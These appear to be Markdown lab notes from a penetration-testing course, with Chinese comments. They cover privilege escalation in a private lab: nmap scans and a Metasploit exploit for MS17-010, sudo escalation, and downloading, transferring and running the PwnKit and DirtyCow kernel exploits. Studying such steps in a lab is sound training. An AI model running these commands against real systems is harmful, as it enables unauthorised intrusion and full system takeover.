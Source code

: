 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

> PayloadsAllTheThings
> https://github.com/swisskyrepo/PayloadsAllTheThings

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```

# Sudo
```bash
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i


sudo -l
# (ALL:ALL) ALL

sudo -i
# 直接提權
```
```bash
# 去百科全書查找
GTFOBins
```

# PwnKit
低版本Kernel的通殺提權
> https://github.com/ly4k/PwnKit
```bash
# Version Check
uname -a

wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/PwnKit
# Pass2
scp PwnKit aleksander@192.168.0.70:~/.

# 一般kernel exploit希望執行的路徑有寫入權限
# /tmp是不錯的選擇
chmod +x PwnKit && ./PwnKit
```

# DirtyCow
```bash
# 更低版本的Linux : Linux Kernel 2.6.22 < 3.9
# https://www.exploit-db.com/exploits/40847
searchsploit -m 40847

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/40847.cpp
# Pass2
scp 40847.cpp aleksander@192.168.0.70:~/.

# how to use : head 40847.cpp
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```